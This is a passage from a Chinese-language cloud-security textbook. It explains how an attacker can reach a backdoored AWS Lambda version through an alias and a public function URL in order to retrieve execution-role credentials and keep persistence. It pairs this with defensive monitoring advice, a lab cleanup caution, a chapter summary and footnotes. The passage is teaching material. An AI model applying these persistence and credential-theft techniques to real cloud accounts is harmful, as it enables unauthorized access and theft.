虽然 Versions 选项卡显示了已发布 Lambda 版本的历史记录，但查看每个版本的部署代码需要再点击几次——大多数开发者不会费心去做。

要无需凭证即可调用后门版本，攻击者需要创建一个指向特定 Lambda 版本的别名，然后配置与该别名关联的函数 URL，如 Figure 5-11 所示。



通过此设置，攻击者可以直接从浏览器或脚本触发后门函数版本，并检索与 Lambda 函数执行角色关联的临时凭证。这些临时凭证随后可用于通过各种技术生成长期访问凭证，类似于你在 “Establishing Persistence with New IAM User Credentials” 中早期的探索。我们在这里不会详细介绍这些步骤，以避免通过公开可访问的 Lambda 函数 URL 泄露你账户的凭证。

从防御安全角度来看，除了审计和解决 IAM 误配置外，你还需要跟踪 Lambda 函数版本历史，监控对旧函数版本意外的调用，并审计函数配置和权限的更改。你可以利用自动化合规服务和功能，例如 AWS Config 自定义规则，以自动检测未经授权的 Lambda 版本和别名创建。此外，根据你的 AWS Organizations 和账户的结构和管理方式，你可以考虑应用服务控制策略来设置预防性护栏和限制，针对开发和安全团队之间明确商定的风险操作。

#### Caution

现在你已完成本章的动手示例，请务必清理你在 Serverless Lab 账户中创建的 IAM 和 Lambda 资源，以避免留下后门和配置错误的云资源。

## Summary

在本章中，你探索了攻击者如何利用泄露的开发者凭证以及过于宽松的 IAM 角色在 AWS 账户内提升权限。你研究了攻击者如何滥用 `AssumeRole` 并利用配置错误的 Lambda 执行角色获得提升的访问权限并建立持久性。你现在更能识别 IAM 误配置，评估 Lambda 执行角色的权限提升风险，并识别攻击者可能用来维持长期访问的某些持久性机制。

在下一章中，你将更深入地了解攻击者如何利用公开暴露的易受攻击的 Lambda 函数。你将亲身体验攻击者的视角并执行任意代码以检索受损 Lambda 函数的源代码，以及从无服务器应用程序中窃取凭证。这将帮助你在被利用之前识别安全问题和误配置。

^1 `AssumeRole` 不是策略，而是在 IAM 策略中可以允许或拒绝的具体操作。通过授予 `sts:AssumeRole`，你允许用户、组或角色请求临时凭证以承担另一个 IAM 角色。

^2 或者，你可以在 CloudShell 终端中运行 `aws sts get-caller-identity --query Account --output text` 来检索账户 ID。

^3 你可以在搜索框中输入 `admin` 来定位 `AdministratorAccess` 策略。

^4 你可以暂时将这些值存储在代码编辑器中。

^5 如果你在阅读本文时有更新的 Python 运行时可用——例如 Python 3.14 或更高版本——你可以改选该版本。

^6 你也可以尝试在不使用 `--profile target-dev-account` 的情况下运行命令。

^7 这些命令重命名文件而不是删除它们，因此你的 AWS CLI 配置和凭证也会被备份，并在需要时可以恢复。

^8 你可以暂时将这些值存储在代码编辑器中。

^9 更完整的设置将在本节末尾讨论。
